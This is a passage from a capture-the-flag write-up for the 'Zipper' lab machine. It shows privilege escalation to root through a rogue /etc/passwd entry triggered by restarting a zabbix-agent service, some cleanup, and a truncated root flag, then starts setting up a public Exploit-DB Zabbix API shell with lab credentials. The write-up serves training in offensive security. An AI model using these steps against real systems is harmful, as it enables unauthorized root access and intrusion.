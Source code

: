 Now I can wait 5 minutes, or just stop and start the zabbix-agent service:

```

zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service stop
zapper@zipper:/dev/shm$ /home/zapper/utils/zabbix-service start

```

Now just `su` into my new root user:

```

zapper@zipper:/dev/shm$ su df
Password: 
root@zipper:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)

```

Now as root, I can clean up by removing the last line in `/etc/passwd`, as well as the script in `/dev/shm`. I’ll also change the service back to how it originally was:

```

root@zipper:/tmp# cat purge-backups.service > /etc/systemd/system/purge-backups.service

```

And get the flag:

```

root@zipper:~# cat root.txt 
a7c743d3...

```

## Beyond root - Exploit-Db Shell

### Background

A lot of people doing this challenge, including me at first, found the “exploit” on Exploit-DB and eventually got it working, only to be confused as to why there was nothing of interest in the container (well, besides the admin cred reuse and the ability to send commands to the other agent). Now that we understand how the API works, I can take a look at how this shell works, and why it gives the results that it does.

I was tempted to make my own shell, but given that this one mostly works once you understand what it’s doing, I decided to just make a slight modification to this one.

### Getting the Shell Running

On downloading, I’ll have to change a few parameters:

```

ZABIX_ROOT = 'http://10.10.10.108/zabbix'	### Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'	### Don't edit

login = 'zapper'		### Zabbix login
password = 'zapper'	### Zabbix password
hostid = '10106'	### Zabbix hostid

```

